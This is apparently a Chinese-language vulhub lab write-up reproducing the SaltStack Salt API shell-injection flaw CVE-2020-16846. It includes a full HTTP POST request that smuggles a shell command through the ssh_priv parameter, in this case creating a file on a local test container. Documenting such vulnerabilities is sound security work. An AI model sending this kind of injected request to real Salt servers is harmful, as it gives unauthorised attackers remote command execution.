 # SaltStack Shell注入（CVE-2020-16846）

###### by ADummy

### 0x00利用路线

​			BurpsuitePOST一个包--->命令执行

### 0x01漏洞介绍

​			Salt是一种基于动态通信总线的基础架构管理的新方法。Salt可以用于数据驱动的编排，任何基础架构的远程执行，任何应用程序堆栈的配置管理等等。

2020年11月，SaltStack正式披露了两个漏洞CVE-2020-16846和CVE-2020-25592。CVE-2020-25592允许任意用户使用SSH模块，CVE-2020-16846允许用户执行任意命令。链接这两个漏洞将允许未经授权的攻击者通过Salt API执行任意命令。

##### 			影响版本

```
SaltStack Version 2015/2016/2017/2018/2019/3000/3001/3002
```

### 0x02漏洞复现

环境启动后，将会在本地监听如下端口：

```
4505/4506 这是SaltStack Master与minions通信的端口
8000 这是Salt的API端口
2222 这是容器内部的SSH服务器监听的端口
```

将以下请求发送到`https://your-ip:8000/run`：

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
```

`touch /tmp/success`通过`ssh_priv`参数注入命令：

![SaltStack_Shell注入漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/SaltStack_Shell注入漏洞_1.jpg)

![SaltStack_Shell注入漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/SaltStack_Shell注入漏洞_2.jpg)

![SaltStack_Shell注入漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/SaltStack_Shell注入漏洞_3.jpg)



